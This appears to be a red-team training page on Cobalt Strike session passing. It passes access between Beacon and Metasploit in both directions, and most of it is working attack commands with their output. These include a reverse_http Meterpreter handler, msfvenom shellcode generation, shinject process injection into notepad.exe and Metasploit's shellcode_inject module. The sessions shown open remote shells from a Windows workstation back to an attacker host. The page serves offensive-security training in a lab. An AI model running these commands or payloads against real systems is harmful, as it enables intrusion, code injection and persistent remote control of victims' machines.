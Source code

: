 Session passing is a means of spawning payloads that can talk to other Cobalt Strike listeners, or even listeners of entirely different C2 frameworks. There are many good reasons for doing this, a few examples include:

-   Leverage a capability within a framework that Cobalt Strike doesn't have.
-   Use different C2 frameworks as backup access in the event the current access is lost.
-   To emulate specific TTPs.

Beacon's staging process is based off Meterpreter's, so you can stage Meterpreter from Beacon. Cobalt Strike has a type of listener called the **Foreign Listener** designed to handle this.

On the Kali VM, launch `msfconsole` and start a new `multi/handler` using the `windows/meterpreter/reverse_http` payload.

```bash
root@kali:~# msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on http://10.10.5.120:8080
```

  

In Cobalt Strike, go to **Listeners > Add** and set the **Payload** to **Foreign HTTP**. Set the **Host** to **10.10.5.120**, the **Port** to **8080** and click **Save**.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/9f5edcd6-eed1-45c0-b8e8-7776a9353b7d)


  

Now to spawn a Meterpreter session from Beacon, simply type `spawn <listener name>`.

```shell
beacon> spawn metasploit
[*] Tasked beacon to spawn (x86) windows/foreign/reverse_http (10.10.5.120:8080)
```

```shell
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: ofosht99) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.120:8080 -> 10.10.17.231:53951)

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  DEV\bfarmer @ WKSTN-1  10.10.5.120:8080 -> 10.10.17.231:53951 (10.10.17.231)
```

  

>  **OPSEC Alert**  
You can only spawn x86 Meterpreter sessions with the foreign listener.

Alternatively, Beacon's `shinject` command can inject any arbitrary shellcode into the specified process. The process can be an existing one, or one we start with the `execute`, `run` or even `shell` commands.

Generate x64 stageless Meterpreter shellcode with `msfvenom`.

```bash
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.120 LPORT=8080 -f raw -o /tmp/msf.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201308 bytes
Saved as: /tmp/msf.bin
```

  

Copy the shellcode across to the **attacker-windows** machine.

```powershell
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```

  

Ensure the multi handler is setup appropriately and inject the shellcode.

```shell
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 1492  4268  notepad.exe                  x64   1           DEV\bfarmer

beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

```shell
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.120:8080
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Redirecting stageless connection from /N1ZSg3AJ641CWUNbIhhT5QWcTIqjJ_npAOt9u8b01bCZLPFvg0YNTQPPZpC2osS8NoHGOLaUyHHR with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.120:8080 -> 10.10.17.231:53793)
```

  

This same process can work in reverse, to inject Beacon shellcode from a Meterpreter session.

To generate stageless Beacon shellcode, go to `Attacks > Packages > Windows Executable (S)`, select the desired listener, select **Raw** as the **Output** type and select **Use x64 payload**.

Copy it across to the Kali VM.

```shell
C:\Payloads>pscp beacon-http.bin root@kali:/tmp/beacon.bin
beacon-http.bin           | 255 kB | 255.5 kB/s | ETA: 00:00:00 | 100%
```

  

Then use the `post/windows/manage/shellcode_inject` module to inject it into a process.

```shell
msf6 > use post/windows/manage/shellcode_inject
msf6 post(windows/manage/shellcode_inject) > set SESSION 1
msf6 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/beacon.bin
msf6 post(windows/manage/shellcode_inject) > run

[*] Running module against WKSTN-1
[*] Spawned Notepad process 4560
[+] Successfully injected payload into process: 4560
[*] Post module execution completed
```

